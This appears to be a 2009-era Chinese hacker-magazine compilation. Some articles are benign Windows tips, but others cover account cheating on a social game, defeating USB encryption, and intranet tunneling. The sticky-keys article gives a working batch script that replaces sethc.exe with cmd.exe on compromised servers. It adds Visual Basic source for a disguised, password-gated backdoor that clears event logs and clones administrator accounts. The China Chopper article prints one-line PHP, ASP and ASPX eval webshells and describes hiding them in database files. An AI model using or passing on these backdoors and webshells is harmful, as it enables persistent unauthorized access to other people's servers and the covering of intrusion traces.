右击任务栏，单击属性，切换到“通知区域”选项卡（如图1），单击“自定义”按钮，我们会在“过去的项目”小节下发现这里隐藏着很多我们以前用过的项目（如图2）。如果被别有用心的人发现，那就不好了。问题是，通知区域的内容不是那么容易清除的，我们只能通过系统注册表来进行编辑。按下“Win+R”组合键输入“regedit”进入注册表编辑器，找到“HKEY_CURRENT_USER\Software\Classes\Local Settings\Software\Microsoft\Windows\CurrentVersion\TrayNotify”（如图3），分别选中右侧窗口中的两个项目：“IconStreams”“PastIconsStream”，然后删除，退出注册表编辑器。

按“Ctrl+Shift+Esc”组合键直接进入任务管理器界面，终止系统进程“explorer.exe”，重新打开任务管理器，切换到“应用程序”选项卡，单击右下角的新建任务，输入“explorer.exe”创建新任务（如图4），回车确认后系统进程重新启动。现在再次打开“通知区域”中的“自定义”选项卡，会发现在“过去的项目”下原来那些用过的图标都已经清除了，只剩下刚才用过的程序图标，很简洁（如图5）。


### 二、管理VISTA强势搜索

VISTA与XP相比得到了前所未有的提高，按下Win键，打开开始菜单里的“开始搜索”框，在这里默认是可以搜索程序、收藏夹、历史记录、通信和文件等许多内容，这个设置在给我们带来了方便的同时也带来了隐私信息公开化的隐患。右击任务栏，单击属性，切换到“开始菜单”选项卡，单击“自定义”，在这里取消所有有关搜索的全部选项（如图6）。


还有一种更彻底、更安全的方法，那就是通过组策略来对隐私信息进行保护，但是对于VISTA的版本有相应的要求。按下“Win+R”组合键输入“gpedit.msc”，在左侧窗口里依次选择“用户配置→管理模板→开始菜单和任务栏”，我们可以根据自己的需要双击右侧窗口中的相关项目，例如“不搜索文件”。然后在随之打开的对话框中选择“已启用”，确认即可。这里可根据自己需要调整（如图7）。这里需要注意的是：家庭版的VISTA不支持组策略，如果是随机预装的VISTA家庭版或者家庭高级版，建议直接升级到U版，完美搞掂。


#### 三、防止锁机时强制关机

如果在工作中有事要离开电脑一会，大多数人可能都会用“Win+L”组合键快速锁定计算机，虽然只有知道密码才能进入系统桌面，但是VISTA有个小小的“bug”，那就是不登录到系统桌面也可以在登录界面选择“关闭计算机”，这样就有可能造成正在操作的程序数据丢失，后果也是很严重的。用组策略就可以解决这个问题。打开“组策略编辑器”，依次进入“计算机配置→Windows设置→安全设置→本地策略→安全选项”，找到“关机：允许在未登录的情况下关机”（如图8），双击进入配置界面，选择“已禁用”，点击“应用”即可。这样就可以防止有人在登录界面进行关机操作了（如图9）。

#### 四、用组策略禁止访问磁盘

磁盘是大家储存重要资料或者系统文件所在的重要设备，如果进行适当的设置，就可以避免隐私的泄露和重要文件的丢失了，并且可以防止新手们因为错误操作而删除磁盘文件。打开“组策略编辑器”后依次进入“本地计算机策略→管理模板→Windows组件→Windows资源管理器”，在右侧找到“防止从我的电脑访问驱动器”一项（如图10），双击进行配置，选中“启用”后在下方就可以选择禁止访问的磁盘驱动器了（如图11）。选择完保存即可，这时被限制的磁盘也就无法在资源管理器内访问了。

以上只是介绍了一些最基本的VISTA安全设置，还有许多方法可以不借助工具而使我们的系统更加安全，希望大家一起来发现。


### 粘滞键后门创新之路

在入侵了一台服务器后，对各位最重要的就是如何留住一个后门了。粘滞键后门就是一个很好的选择。有些小菜可能还不知道粘滞键是何原理，我在此简述一下。

#### 一、原理

粘滞键程序在WINDOWS（或Winnt）\SYSTEM32下，名称为sethc.exe，以系统权限运行（如图1）。在3389连接一台服务器后，按5下SHIFT会在对方桌面出现粘滞键，如图2。但是如果把sethc.exe替换为cmd.exe呢？我有幸找到国外一台这样的服务器，按5下SHIFT，CMD出现了，运行“net user”，可以看到有许多同行都进去过了（如图3），这样就拥有了CMDSHELL权限了。据说在粘滞键后门刚出现的时候，有人狂扫开放3389端口的服务器，结果在两小时搞定了五台服务器——！

顺便给各位共享一个BAT，此BAT可自动替换sethc.exe为cmd.exe，给各位“内鸡”提权做点贡献，代码如下：

```bat
@echo off
copy %windir%\system32\cmd.exe %windir%\system32\sethc.exe /y
copy %windir%\system32\sethc.exe %windir%\system32\dllcache\sethc.exe /y
exit
```

#### 二、雏形

刚才说到有人扫3389一小时搞定了5台服务器，但是没有人愿意这么轻易地把自己的劳动成果“共享”。随之而来，粘滞键后门出现了需要密码验证才能够进入CMD。前几期杂志上BaseNet的文章《谈WINDOWS验证缺陷》批评了需要密码验证的粘滞键后门。我也用VB编了个类似的程序，如图4。代码很短，在Command1中编写代码：If Text1.Text = "hackerxfiles" Then Shell "cmd.exe" Else MsgBox "You are Pig"，然后即可运行，效果如图5。


#### 三、进化

虽然我们避免了劳动成果被窃取的问题，但是各位有没有想到：随着网络和科技的发展，黑客技术与手法被越来越多的人所了解。如今网管们也不是吃素的……

记得某位牛人说过：“网管可以在瞬间成为黑客，而黑客也可以瞬间成为网管”。我们现在模拟一个场景：如果某IDC网管在了解“粘滞键后门”的利用后，在服务器上按下了5个SHIFT，结果出现了一个和粘滞键截然不同的程序，上面还写着“输入密码”，难免会起疑心……

那我就在想：如果能做一个山寨“粘滞键”就好了，这样既能够绕过网管的眼球，又可以为自己留下提权捷径。此时，一个邪恶的想法出现在脑中。我的思路是这样的：先用VB做一个跟粘滞键一模一样的界面，但是这个窗口可以拉伸，将密码验证等部件放在拉伸出的窗体中即可。

说干就干，打开VB开始编写，新建一个工程，然后模仿粘滞键进行布局，再在下方布局密码输入等控件，如图6。接着再将窗体拉伸到和WINDOWS粘滞键一样的高度。最后就是将窗体设置为可拉伸状态：在Form1属性中的BorderStyle选项中选择“2 - Sizeable”。唯一和WINDOWS粘滞键不一样的就是窗体是否可拉伸（如图7）。

接下来大家可以看到效果了：正常情况下是如图8的状态，但是窗体一经拉伸就变成了如图9的状态。这个思路我曾在黑X论坛上发过帖子（详见http://bbs.hackerxfiles.net/）。viewthread.php?tid=344024），其中有条评论对我很受打击。回帖中说道：“支持一下哦，不过要是被管理员不小心给拉到了的话后果很严重的哦”。不过也确实，如果管理员不小心拉到了窗口边缘，难免出现如图10的鼠标手势。细心的管理员当然会怀疑了，俗话说得好：不怕一万，只怕万一啊。不行，还要改进。

#### 四、升华

我们这样做，说白了就是不让别人发现我们的后门，那直接弄个快捷键不就得了？当按下特定按键的时候就拉伸窗体即可，这样不就两全其美了？

现将判断“SHIFT、ALT、CTRL”按键情况的代码贴出，当我们同时按下 SHIFT 和 ALT 时，窗口将拉伸，代码如下：

```vb
Private Sub Form_KeyDown(KeyCode As Integer, Shift As Integer)
    Dim ShiftKey As Integer
    ShiftKey = Shift And 7
    Select Case ShiftKey
        Case 1
            Label4.Caption = "You pressed the SHIFT key."
        Case 2
            Label4.Caption = "You pressed the CTRL key."
        Case 4
            Label4.Caption = "You pressed the ALT key."
        Case 3
            Label4.Caption = "You pressed both SHIFT and CTRL."
        Case 5
            Label4.Caption = "You pressed both SHIFT and ALT."
            Form1.Height = 5595
        Case 6
            Label4.Caption = "You pressed both CTRL and ALT."
            Form1.Height = 2310
        Case 7
            Label4.Caption = "You pressed SHIFT, CTRL, and ALT."
    End Select
End Sub
```

然后在 Form_Load 中加入代码，开启键盘响应：

Me.KeyPreview = True  '开启键盘响应'

此时我又想到，除了启动 CMD，我们也可以启动其他重要的程序：比如注册表、任务管理器、日志清除、计算机管理、运行 Explorer.exe 等（有高人会说了：不是吧？有了 CMDSHELL 什么事情都可以干啊，还要这个干什么？答：呵呵，确实，真正的高人只要有 CMDSHELL 确实可以干很多事情，但是我们要设计方便的程序给我等小菜吧，呵呵）。

所以我加入了启动其他程序的功能，窗体布局大致如图11。

然后就是写代码了，贴出全部代码如下：

```vb
Windows粘滞键后门 V2.2      Made By CC米业 2009-06-01

Dim passwd As String
Private Sub Command1_Click(Index As Integer)
    Unload Me
End Sub

Private Sub Command10_Click()
    If Text1.Text = passwd Then Shell "cl.exe -eventlog ALL"
    Else MsgBox "You Are Pig!"
End Sub
```


### 傻瓜黑客

```vb
Private Sub Command11_Click()
If Text1.Text = passwd Then Shell "clone.exe Guest Administrator" Else MsgBox "You Are Pig!"
End Sub

Private Sub Command12_Click()
Shell Text2.Text '自定义路径运行
End Sub

Private Sub Command2_Click()
Unload Me
End Sub

Private Sub Command5_Click()
If Text1.Text = passwd Then Shell "explorer.exe" Else MsgBox "You Are Pig!"
End Sub

Private Sub Command6_Click()
If Text1.Text = passwd Then Shell "mmc.exe compmgmt.msc" Else MsgBox "You Are Pig!"
End Sub

Private Sub Command7_Click()
If Text1.Text = passwd Then Shell "taskmgr.exe" Else MsgBox "You Are Pig!"
End Sub

Private Sub Command8_Click()
If Text1.Text = passwd Then Shell "regedit.exe" Else MsgBox "You Are Pig!"
End Sub

Private Sub Command9_Click()
If Text1.Text = passwd Then Shell "C:\Program Files\Internet Explorer\iexplore.exe" Else MsgBox "You Are Pig!"
End Sub

' 键盘输入判断
Private Sub Form_KeyDown(KeyCode As Integer, Shift As Integer)
Dim ShiftKey As Integer
ShiftKey = Shift And 7
Select Case ShiftKey
Case 1
Label4.Caption = "You pressed the SHIFT key."
Case 2
Label4.Caption = "You pressed the CTRL key."
Case 4
Label4.Caption = "You pressed the ALT key."
Case 3
Label4.Caption = "You pressed both SHIFT and CTRL."
Case 5
Label4.Caption = "You pressed both SHIFT and ALT."
Form1.Height = 5595 '设置窗体高度
Case 6
Label4.Caption = "You pressed both CTRL and ALT."
Form1.Height = 2310 '还原窗体高度
Case 7
Label4.Caption = "You pressed SHIFT, CTRL, and ALT."
End Select
End Sub

Private Sub Command3_Click()
If Text1.Text = passwd Then Shell "cmd.exe" Else MsgBox "You Are Pig!"
End Sub
```

```vb
Private Sub Command4_Click()
If Text1.Text = passwd Then Shell "C:\WINDOWS\System Bak\Backup\cmd.exe" Else MsgBox "You Are Pig!"
End Sub

Private Sub Form_Load()
Me.KeyPreview = True '开启键盘响应
passwd = "miye" '设置密码
Me.Icon = LoadPicture("") '去除图标
End Sub
```

编写完就开始测试了。由于手头的服务器肉鸡都“跑”了，只能在本机简陋地测试下了。打开程序如图12，输入密码后即可成功运行相应程序，如图13。


图11


图12


图13

#### 五、还待再升华

在测试看似天衣无缝的程序中我也发现了一些问题，希望……

- 众牛人解决：
1、语言问题：举个例子，一个韩国的服务器上居然出现了简体中文的粘滞键，这恐怕会被发现。  
2、版本问题：在 WIN2000 的系统下出现“WIN2003 的粘滞键”，幸好 win2000 服务器基本绝迹了。  
3、“设置”键的可用和不可用，大家知道在 3389 下启动粘滞键的“设置”是灰色的不可用，而登录进去启动粘滞键的“设置”是可用的，如何判断管理员登录与否？

#### 六、总结

一句话：创新才能够有突破，本篇文章至此结束。（本文所涉及到的程序和源代码已收录到光盘中）

### 注册汉字@XX.com形式的邮箱

dz225


今天无意间看到了中文域名，便研究了下其原理，发现用户输入国际化域名后，由应用程序完成本地码到 Unicode 编码的转换，然后再完成 Unicode 编码到 7 位 Punycode 编码的转换，然后由解析器（Resolver）发给 DNS 服务器进行解析。DNS 服务器里存储的不是八位编码的 Unicode 字符串，而是经过 Punycode 算法处理的 7 位编码字符串。

IDNA 中应用程序对 IDN 进行 ToASCII 和 ToUnicode 操作的时候会调用 Punycode 算法完成七位和八位数据的转换操作。一个八位 Unicode 表示的域名字段字符串将会被转化成为七位字母数字表示的字符串，并添加前缀“xn--”以便与其他英文域名区分，表示这个域名字段是 IDN。突发奇想看能否作为邮箱来注册汉字式的地址，结果……

- 呵呵，下面介绍下详细的步骤：
1、到 http://www.cnnic.net.cn/html/Dir/2003/10/29/1112.htm 。把汉字转化为 punycode 码（Punycode 是一个根据 RFC3492 标准而制定的编码系统，主要用于把域名从地方语言所采用的 Unicode 编码转换成为可用于 DNS 系统的编码）。  
2、用这个 `xn--p7Q071A` 做用户名去注册，注册步骤一样。  
3、注册完进你的邮箱看，是不是有汉字@XX.com 的形式。


讲完了操作，我们再来说说原理探究过程：①192.168.0.73——询问 202.106.0.20“中企动力.cn”的 A 记录，如图3。②202.106.0.20——返回 192.168.0.73 A 记录为 159.226.7.162，如图4。③192.168.0.73——159.226.7.162……

159.226.7.162 的 80 端口发起 TCP 连接请求；159.226.7.162——192.168.0.73 返回一个 ACK；192.168.0.73——159.226.7.162 回应一个 ACK；192.168.0.73——159.226.7.162 请求一个 GET / HTTP/1.1（如图5）；这两步返回给 192.168.0.73 相关的信息，说明在 159.226.7.162 上没有 GET，返回 302（如图6）。

```text
Domain Name System (query)
Transaction ID: 0xcd9f
Flags: 0x0100 (Standard query)
Questions: 1
Answer RRs: 0
Authority RRs: 0
Additional RRs: 0
Queries
  ... type A, class IN

图3
```

```text
Queries
  ... type A, class IN
Answers
  ... type A, class IN, addr 159.226.7.162
  Time to live: 6 hours

图4
```

```text
Hypertext Transfer Protocol
GET / HTTP/1.1
Request Method: GET
Request URI: /
Request Version: HTTP/1.1
Accept: image/gif, image/x-xbitmap, image/jpeg, ...
Accept-Language: zh-cn
User-Agent: Mozilla/4.0 (compatible; MSIE 6.0; Windows NT ...)
Host: ...cn
Connection: Keep-Alive

图5
```

### 傻瓜黑客


图6

我们可以看到，这时候 159.226.7.162 返回给浏览器上的页面是一个跳转页面，跳转到了真正的中文域名的转码上去了：http://xn--fiqzt00gqb.cn:80。注：159.226.7.162 网上查到是北京市科学院网的 IP 地址，telnet 过去，发现它应该是 cnnic 的一个 IP 地址，主机名是 helium.cnnic.cn，上面安装为 apache。由此判断是中国互联网络信息中心的服务器上做了配置，当访问“中企动力.cn”时，cnnic 上的 apache 最终跳转到了“中企动力.cn”的中文转码上，再详细一点的细节，就推断不出了，但原理应该是这样的，后来给 cnnic 去电话，最终判断是正确的。


### 开心网找应用外挂

丛林

不知道从什么时候起，玩开心网已经成了一种上网的时尚：种地、偷东西、抢车位，每天都是如此，却又总是乐此不疲。先偷菜后上班、先收菜后睡觉已经成了许多人的常规动作。不过每天都盯着开心网也够累了，今天我就教大家用外挂来偷东西，彻底解放自己的双手。程序要求我们先安装 .net 3.5 后才能运行，运行程序后点击“添加账户”按钮，输入自己的开心网账号和密码，如图1。然后在编号处勾选上我们的账号，再点击“验证激活状态并初始化”按钮，在下面的主日志中，如果显示成功登录系统就说明验证通过了，如图2。


图1

图2

玩开心网首先要加一堆好友，因为你只能去偷好友的菜，如果没有好友，就只能尝试下什么叫独孤求败了。如果你的好友不够多我们可以借助外挂来达到添加好友的目的。本文我们就使用 KaiXin001 Master 这款软件的添加好友功能，KaiXin001 Master 的功能很强大，尤其是你使用多个小号作弊时，它可以非常方便地控制自己的多个账号。接下来我们就添加好友，在账户上点右键，在弹出的菜单中可以看到，程序提供了两种添加方式：向好友的好友发送添加请求和向陌生人发送添加请求，如图3。我们可以根据自己的需要进行选择，我选择的是向陌生人发送添加好友请求。

好友列表的话，直接复制到上面就可以了，我们一般没有列表所以就选择下面的“指定 uid 区间”，如图4。“从 uid”表示开始要添加的号，“数目”的意思就是要添加多少好友，“随机”表示按照前面添加的“数目”自动生成一些 uid 号，当然这时前面的 uid 号就没用了。这里我选择了随机让程序自动生成 500 个号进行添加，在下面的“发送消息”栏写上你添加好友的自定义消息，然后点击“发送添加好友请求”按钮就开始添加了。

开心网花园外挂，主要是因为开心网为了防止外挂和增加一些新产品经常会进行更新，而这个外挂程序的更新也非常频繁，平均两三天就会更新一次，如果程序不能用了就到网站下载最新的版本。运行程序后首先填写自己的账号和密码，然后点“加载好友”，成功的话自己的好友就会全部列出来了。程序的下方有“自动播种”“自动收获”“自动买种”等功能，大家可以根据自己的级别和喜好来选择自家地里种的东西，如果公司屏蔽了开心网，还可以使用下面的代理功能来开启外挂，如图6。


由于开心网做了限制，添加一定好友后就需要输入验证码，因此程序也会弹出窗口让我们输入验证码，我们输入后按回车就会继续了，如图5。尽管只是半自动，但这比在开心网上手工加好友的效率还是提高了 N 倍。

当好友慢慢增多了，接下来就可以大偷特偷了。我推荐使用设置好后点“保存设置”，然后再点“返回主界面”，进入到主界面后，点开心花园的“开始工作”，程序就会自动监控 120 分钟内有果实成熟的好友，有的话就会在左上角显示出来，时间到了就会自动开始偷东西，偷东西的记录在左下角窗口都会显示出来，如图7。同理，进入“开心牧场”，也点“开始工作”，就会自动监控和偷取牧场的东西了，如图8。

程序还提供了偷盗记录的功能，可以显示出使用本程序偷取的详细信息，点击“偷盗记录”，然后选择查询日期和类型，点“查看”按钮后偷盗记录就会显示出来了，一目了然。

图9。程序还可以显示种子信息，点击“更新种子”→“植物种子”，可以显示出开心网所有种子的信息，包括所需等级、成长时间、防偷时间、价格等等，大家可以根据这些信息选择适合自己种的东西，如图10。

设置好后，我们只要把程序最小化，程序就会伪装成 MSN 图标躲在右下角的任务栏了。总体来说这款外挂的功能还是挺不错的，如果大家发现还有更好的外挂，也欢迎到黑客 X 档案一起交流讨论。

（本文所涉及到的 KaiXin001 Master、开心网花园外挂已收录到光盘中）

### XP下安装64位的Windows 7

林中闲人（骨感亮）

最近给电脑新加了一个 2G 的内存条，这样内存就达到了 4G。可是在 XP 下居然显示为 3G 内存，如图1。别人安装 4G 显示的为 3.25G，我的竟然少了 0.25G。为了找出那丢失的 1G 内存，我决定安装 64 位的 Windows 7，于是马上从网上把 Windows 7 下载安装了回来。

开始安装，问题来了，双击 SETUP.EXE，居然不能安装，提示不是有效的 Win32 应用程序，如图2。32 位的 Windows 7 是可以在 XP 下进行安装的，64 位的居然不行。我到百度上搜索了一下，说需要单独刻盘进行安装。像我等小菜为了安装 64 位的 Windows 7 还要去买一个刻录机吗？在此我就把自己找到的解决方法和工具分享给大家。

- 1. 首先使用虚拟光驱把下载回来的 Windows 7 ISO 安装光盘加载。  
- 2. 把安装光盘中的 bootmgr 文件和 boot、sources 等文件夹按原…  
- 3. 打开 Windows Vista/2008/7 硬盘安装辅助工具（如图3），点击“安装”，然后手动重启计算机。  
- 4. 在开机启动菜单选择“Windows Vista/2008/7 Setup from Hard Disk”（如图4），默认通常是启动 XP；选择后即可开始 64 位 Windows 7 的安装。  

Windows 7 安装完成后，开机启动菜单里还会有“Windows Vista/2008/7 Setup from Hard Disk”的选项。再次打开硬盘安装辅助工具并选择卸载即可。（文中涉及工具已收录于光盘）

### 轻松搞定失忆的U盘

BaseNet

移动存储设备的安全问题主要体现在两个方面：一是 Autorun.inf 病毒问题，二是存储数据安全。针对数据安全，常见做法是对 U 盘进行加密；但如果忘记密码或需恢复数据，仍有办法“找回”失忆的 U 盘数据。

#### 一、加密程序将U盘数据搞到哪里去了

本文以常见的 U 盘超级加密 2008 为例。运行程序并输入初始密码后，可在“设置”中修改密码。程序提供全盘加密与单文件加密等方式。

先对 U 盘进行全盘加密，再通过 CMD 查看根目录内容。进入盘符后执行 `dir /a`，若未见异常，可再用 `/x` 查看 8.3 短文件名，可能发现可疑目录（如 E2E2~1）。进入后再执行 `dir /a /x`，可看到诸如 `desktop.ini` 及乱码显示目录等。部分加密软件并非真正加密文件，而是通过移动、伪装目录（如 CLSID 相关机制）实现“隐藏”效果，因此可通过定位对应文件夹后复制恢复数据。

“加密”功能，这在后面的“破解”中我们更能理解这一点。

#### 二、搞到加密U盘的数据

针对 U 盘加密程序破解的方法有很多，这里简单地介绍几种方法。

##### 1、U盘加密数据HIPS来帮忙

HIPS 是目前比较好的安全软件，它通过规则性的比对使得安全有了一个新的层次，同时一般的 HIPS 软件都具备强大的文件查看功能。我们以 Malware Defender 为例，用它的文件浏览功能轻松地找到了原来的数据，如图4。通过 HIPS 的这个小功能，不难看出程序不仅在文件夹上做了手脚，而且可能 HOOK 掉了一些 Windows API。因为 HIPS 软件一般都是通过系统底层的 API 来进行管理，所以可以查看到所谓“加密”后的文件。

##### 2、EasyRecovery轻松搞定失忆的U盘

要找到 U 盘加密数据，我们可以使用数据恢复工具。比较傻瓜式的数据恢复工具有 EasyRecovery 和 Final Data。由于 Final Data 已经停止了开发，因此我们以 EasyRecovery 为例来进行介绍。从网上下载程序安装完毕后运行，选择“数据恢复”——“高级恢复”，程序就会自动进行扫描，进入如图5所示的界面。选择移动存储设备的驱动盘符后，点击“下一步”，程序开始扫描文件，如图6。一般来说 U 盘比较小，则用的时间也比较少。我们可以等完全扫描完毕后再进行恢复，也可以等程序扫描一小段时间后直接取消，然后在进入的界面中选择要恢复的数据，点击下一步，选择恢复保存后的位置，程序就将 U 盘加密数据恢复出来了。

##### 3、U盘加密数据破解Ghost也行

既然可以通过数据恢复软件将数据恢复出来，那么能不能用备份程序将数据备份出来呢？用 Windows 自带的备份程序是不行的，我们借用第三方的工具 ghost.exe 就可以了。Ghost 备份程序大家都很熟悉了，运行 Ghost 程序，在程序界面中依次选择“Local”→“Disk”→“To Image”，将 U 盘分区制作成 GHO 镜像。然后就进入了关键性的一步：将制作的 GHO 镜像用 Ghost Explorer 程序打开，浏览我们备份出来的镜像文件，就能找到加密后的数据了。

有了上面介绍的三种方法，相信 U 盘加密我们就不怕了！

（本文所涉及到的 U 盘超级加密 2008、HIPS、EasyRecovery 和 Ghost Explorer 已收录到光盘中）

### 中国菜刀使用小记

yofx

前几天一好友发给我一个工具，就是这个中国菜刀了，看来他那里好玩的东西还真不少呀。经过使用，感觉这个工具很不错，不敢藏私，特写出来与大家分享。

程序运行后的主界面如图1所示，经典的两栏模式，左侧主要用来自定义一些分类，以确保我们能快速准确地找到保存的 WEBSHELL。不过由于是测试版本，“网站分类”中的“未分类”无法删除。如果我们想添加自己的分类，则在“网站分类”上点右键添加分类即可。下面的“事件提醒”与我们没啥关系，是作者添加的广告；而“上传下载”则是实时的，可以观察我们下载和上传的进度。不过这里也存在一个问题，就是你如果下载 N 多个文件，它就会给你依次列下去，如图2，没办法删除下载记录（关闭重新下载，记录会消失）。不过这只是小问题而已，相信在正式版中一定会改进的。既然是 WEBSHELL 的集成工具，那我们就进入正题吧（当然了，它的虚拟终端功能还是非常棒的）。

我们来看下如何配置客户端。目前中国菜刀支持三种客户端：ASP、PHP、ASP.NET（相信在以后的版本中还会加入 JSP），各自的服务端代码如下：

```php
<?php @eval($_POST['pass']);?>
```

```asp
<%eval request("pass")%>
```

```aspx
<%@Page Language="Jscript"%><%eval(Request.item["c"],"unsafe");%>
```

下面就以 PHP 为例来进行配置。先自己创建一个分类 test，然后在右侧一栏点击右键选择添加，就会显示出添加网站的对话框，如图3。我来详细说一下关于它的配置。

“地址”，我们填写 webshell 的 URL（例如 http://www.yofx.cn/down/test.php），后面的小框框当然就是密码了，我们填入默认的 pass。在下面的配置框填写就需要注意一下了，来看说明（当然这个不是必填的，不填写只是无法浏览数据库）：

```text
<T></T> 数据库类型：MYSQL、MSSQL、ORACLE、INFORMIX、ADO
<C></C> ADO 方式连接数据库的字符串
<H></H> 数据库地址
<U></U> 数据库用户名
<P></P> 数据库密码
```

“备注”那里可以填写更详细的说明，以方便我们查找；“脚本类型”则选择对应的即可，不然会出错。这个工具我感觉最棒的就是字符编码这个功能。以前很多人在入侵国外网站的时候，马儿总是不能用（提示出错，可木马本身明明是没有问题的），现在好了，我们只需要在这里选择相对应的字符编码就可以解决问题了，如图4。

可以说，我们根据实际情况填写就可以。我这里配置了一个 PHP 下的 MYSQL 数据库，具体的大家可以参看图5。除了上述的参数外，作者还提供了三种参数：

- 1. 下面的参数适用于需额外添加数据才能执行的情况：`<O></O>` 额外附加提交的数据，比如“uid=admin&pwd=123456”。这种参数适合诸如“www.xx.com/xx.asp?nb=nb”之类的一句话，参数极大地扩充了这个工具的适用性。  
- 2. 下面的参数适用于需要登录后才能使用的情况：`<POST></POST>` 开始提交之前先 POST 的 URL，比如“http://www.target.com/post.php”；`<DATA></DATA>` 开始提交之前先 POST 的数据……  

这两个参数需要组合应用，一般情况下是不会用到的，因此就不多做介绍了。关于 PHP 的其它数据库，我也不多做介绍了，都是类似这样的配置。下面来看有关 ASP+ACCESS 的配置吧：直接留空配置区的配置，也就是什么都不填，ADO 之类的什么都不用，直接保持默认空白即可。我们选择目录管理，然后找到 MDB 数据库所在的地方，双击就可以自动连接了。

这个功能还真是够贴心的，不用我们下载再查看数据库了。更方便的是我们可以给 MDB 数据库中添加一句话木马，然后复制修改后缀为 ASP，藏到某个角落即可。当然了，对于那些数据库修改为 ASP 后缀的，我们只需要先复制，然后修改数据库后缀为 MDB 就可以直接查看数据库了。

介绍了两种配置的方法，我想大家对这把菜刀的配置应该不成问题了吧！关于 PHP、ASP、其它数据库的连接方式大同小异，稍微修改即可。对于 ASP.NET，目前作者还没有提供数据库的支持，这个就暂时放过了。接下来我们看看这个工具的目录管理功能吧，双击已经添加的 WEBSHELL 或者右键选择目录管理就可以打开了，如图6。

- 更新缓存：也就是刷新。  
- Wget：直接从网上下载文件到该目录。  
- 上传：在左侧点击上传则会上传到该目录，请保持文件名不变。  
- 下载：选中某个文件后点击下载，默认下载到根目录的 `Down` 目录。  
- 编辑：可实时修改内容，使用方便。  
- 其它如删除、复制、新建等功能也可用。  

点问题，在 PHP+MYSQL 的环境下不显示具体的内容，只能显示到表，如图9；而上方的“配置”后面，我们则可以自己输入需要的命令，来实现查找的功能。当然了，在我们双击或者切换数据库的时候，这个配置后面的命令也是在变换的（倒是可以用它来学习数据库的操作 o(∩_∩)o）。当我们自己输入命令后，点击后面的“执行”就可以执行命令了。

最后来看菜刀最有特色的虚拟终端（也就是 Webshell 里面的执行 CMD 命令，不过更加好用），在 webshell 上点右键，选择虚拟终端，便会打开如图10所示的窗口。图中就是我输入 ls 命令后显示的结果。经过老兵的指点，此终端根据你 webshell 所在服务器的类型采用不同的命令（在未配置情况下 ls 可用）。当然在使用命令前我们需要配置一下，输入 help 可以看到帮助信息。

```text
SETP c:\windows\system32\cmd.exe
SETP /bin/sh

切换到根目录：ROOT

SETP e:\wwwroot\ftptesttest\cmd.exe
```

也就是输入我们上传的 CMD 所在的绝对路径即可。这个用起来可比一般 WEBSHELL 中执行 CMD 命令舒服太多了，不过在 ASP+ACCESS 的环境下我们无法执行任何命令，包括 ls，如图11。对于网速缓慢的朋友们，这个东西真的很爽；对于喜欢搞国外站点的朋友们，这个东西就是神器了，免去了我们频繁修改 shell 的麻烦，一个即可搞定。

到这儿，关于菜刀的使用就简单地介绍完了，行文比较仓促，如果有错误的地方还请大家指正。

（本文所涉及到的中国菜刀已收录到光盘中）

## NDS游戏免费下载

从林

上期杂志中我写了篇 PSP3000 的破解文章，无奈很多读者都没有购买 PSP，也有读者问我能不能在电脑上玩 PSP，我只能遗憾地告诉他不行。不过因为掌机的 NDS 目前已经模拟得很完美了，画面很流畅，音效也还可以，今天就教大家在电脑上玩 NDS。

首先要下载游戏 ROM，我们在电玩巴士的 NDS 频道等 NDS 站点上就可以下载到丰富的 NDS 游戏资源。解压游戏 ROM 后会看到一个扩展名为 nds 的文件，这个就是游戏文件。然后就是主角出场了——NO$GBA 模拟器，并不是指美元，正确的读法应该是 nocash gba，意思就是不收现金（只支持银行转账，目前由于资金问题停止了更新）。从名字上就可以看出它是一款 GBA 模拟器，不过和其它的 GBA 模拟器比起来，在功能和效果上还是稍逊一筹，后来增加了 NDS 游戏的模拟功能，终于放出了光芒。

运行后直接就让你选择 NDS 游戏，我们选择下载好的 NDS 游戏就行了。由于 NDS 的屏幕特性是双屏幕，因此模拟器也会上下分为两个部分，如图1。NDS 还有一大特性就是下方为触摸屏，很多游戏都需要笔去点，对此模拟器也很好地进行了模拟，就是使用你的鼠标当作触摸笔直接去点下方的屏幕。图2就是游戏《合金弹头7》，下方是地图，我们用鼠标直接在上面拖拽就可以查看地图；图3是游戏《太鼓达人》，鼠标在下方屏幕点就是模拟鼓棒敲鼓。

大多数游戏的主要画面都在上方，当然就是使用按键来控制了。建议大家先熟悉一下按键，按 F11 快捷键选择“Controls”选项就可以看到默认的按键设置了，如图4。右边的“Keyboard”为键盘设置，可以改为自己熟悉的按键布局；左边的 Joysticks 是手柄设置，如果你有手柄的话就在这里设置。我用自己的 XBOX360 手柄测试效果很完美，默认设置就可以直接玩游戏了。

这款模拟器有个缺点就是画面大小不可调节，最大化按钮纯属摆设，在硕大的电脑屏幕上显得过于小了，玩的时间长了眼睛会很不舒服。因此我们要想把画面放大就要依靠其它插件来实现，我们可以使用 myZoom。双击 myZoom，就会看到又出现了一个放大的双屏游戏画面，如图5。两个屏幕同时显示当然不爽，在 myZoom 屏幕上点右键选择“隐藏模拟器”→“隐藏”，就可以将 NO$GBA 画面隐藏起来了；点 fullscreen 还可以全屏运行游戏。myZoom 自身还带了个 NDS 的皮肤，右键选择 skin→skin on，将皮肤模式打开，再选择 skin→select skin picture，选择 skin 文件夹下的 skinforall.bmp，就加载了 NDS 皮肤，是不是很像一个 NDS 游戏机呀，如图6。除此之外，myZoom 还带了多种画面……画面滤镜，大家可在滤镜选项和渲染方式选项中选择自己喜欢的画面效果。NDS 游戏机自身带有麦克风，有极个别游戏是要对麦克风吹气才可以顺利进行的，此模拟器也很好地模拟了这一性能……图7是游戏《逆转裁判》，我们只要对着麦克风轻吹气，下面的指纹就显出来了。至此，触摸屏和麦克风特性都成功解决了。

### “信使网络通”也玩内网上线

在以前的杂志上曾经介绍过使用某些内网建站功能来突破内网对外网的限制，其实类似的软件还有“信使网络通”。两者原理虽差不多，但在操作上有一些细节问题，可能会使菜鸟们不知所措。

#### 一、注册配置信使网络通

我们先使用浏览器打开网络信使通的注册地址：http://www3.infoscape.com.cn/wlt/index.htm ，注册一个用户账号，其注册界面如图1所示，按图中提示填写即可。


登录后要做的是建立一个内部站点，在“服务类别”里选择“WWW”，然后建立虚拟域名，必须以 xinshi.net 结尾（如 swantest.xinshi.net）。

设置好虚拟域名后，再填写内部网站 IP。可在 CMD 下输入 `ipconfig` 查看内网 IP 地址（如图3），将地址填到“内部网站IP”一栏；“PORT”通常填写“80”。

建立了内部站点的话，在下方“您已经注册的服务”中会详细列出刚才设置的域名信息，如图4。


#### 二、信使网络通的配置

